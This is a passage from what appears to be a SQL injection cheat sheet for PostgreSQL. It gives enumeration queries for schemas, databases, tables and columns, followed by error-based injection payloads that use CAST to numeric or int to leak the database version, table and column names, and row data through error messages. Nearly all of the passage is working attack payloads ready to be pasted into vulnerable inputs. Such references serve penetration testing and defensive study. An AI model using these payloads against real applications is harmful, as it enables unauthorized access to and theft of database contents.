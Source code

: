 | Current User           | `SELECT getpgusername();`               |


## PostgreSQL Methodology

| Description            | SQL Query                                    |
| ---------------------- | -------------------------------------------- |
| List Schemas           | `SELECT DISTINCT(schemaname) FROM pg_tables` |
| List Databases         | `SELECT datname FROM pg_database`            | 
| List Tables            | `SELECT table_name FROM information_schema.tables` |
| List Tables            | `SELECT table_name FROM information_schema.tables WHERE table_schema='<SCHEMA_NAME>'` |
| List Tables            | `SELECT tablename FROM pg_tables WHERE schemaname = '<SCHEMA_NAME>'` |
| List Columns           | `SELECT column_name FROM information_schema.columns WHERE table_name='data_table'` |


## PostgreSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| CAST | `AND 1337=CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC) -- -` |
| CAST | `AND (CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC)) -- -` |
| CAST | `AND CAST((SELECT version()) AS INT)=1337 -- -` |
| CAST | `AND (SELECT version())::int=1 -- -` |



```sql
CAST(chr(126)||VERSION()||chr(126) AS NUMERIC)
CAST(chr(126)||(SELECT table_name FROM information_schema.tables LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT data_column FROM data_table LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)
```

```sql
' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

### PostgreSQL XML Helpers

